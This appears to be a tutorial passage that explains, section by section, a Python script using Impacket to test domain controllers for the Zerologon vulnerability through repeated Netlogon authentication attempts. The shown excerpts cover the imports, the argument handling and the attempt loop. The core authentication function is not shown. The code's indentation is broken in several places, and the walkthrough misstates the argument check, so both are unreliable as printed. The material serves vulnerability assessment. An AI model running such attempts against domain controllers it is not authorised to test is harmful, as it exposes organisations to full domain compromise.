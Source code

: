 ```py
from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
from impacket import crypto

import hmac, hashlib, struct, sys, socket, time
from binascii import hexlify, unhexlify
from subprocess import check_call
MAX_ATTEMPTS = 2000
```

Lines 1-4 import the required modules from Impacket, specifically the NRPC, EPM, Crypto, and Transport libraries. Additionally, on lines 6-8 a handful of other misc libraries are also imported, however, the Impacket libraries are the star of the show here. Lastly, on line 9, we're defining a constant (similar to a variable, but never changes) that sets the maximum number of retries for Zero Logon to 2000.

**Lines 76 - 86**

```py
if __name__ == '__main__':
    if not (3 <= len(sys.argv) <= 4):
    print('Usage: zerologon_tester.py <dc-name> <dc-ip>\n')
    print('Tests whether a domain controller is vulnerable to the Zerologon attack. Does not attempt to make any changes.')
    print('Note: dc-name should be the (NetBIOS) computer name of the domain controller.')
    sys.exit(1)
    else:
    [_, dc_name, dc_ip] = sys.argv

    dc_name = dc_name.rstrip('$')
    perform_attack('\\\\' + dc_name, dc_ip, dc_name)
```

Next we skipped down to the very bottom of the script so some other variables will make sense later, Line 1 is essentially declaring a main function within Python, Line 2 we are checking for the amount of parameters, and ensuring that it's exactly 3 (zerologon_tester.py DCNAME IP). Lines 3-5 are printing the help menu only if it's greater than 3 arguments, or less than 2 and exiting. If the required arguments are supplied, on line 8 the arguments are being passed into two variables: dc_name, and dc_ip. After the arguments are passed, dc_name is being stripped of the "$" character, as the dc_name variable shouldn't have it. The user account name should however. Afterwards, it's passing the variables two variables and an additional, modified variable into a module called "perform_attack".

**Lines 57 - 73**

```py
def perform_attack(dc_handle, dc_ip, target_computer):

    print('Performing authentication attempts...')
    rpc_con = None
    for attempt in range(0, MAX_ATTEMPTS):  
    rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)
    
    if rpc_con == None:
        print('=', end='', flush=True)
    else:
        break

    if rpc_con:
    print('\nSuccess! DC can be fully compromised by a Zerologon attack.')
    else:
    print('\nAttack failed. Target is probably patched.')
    sys.exit(1)
```

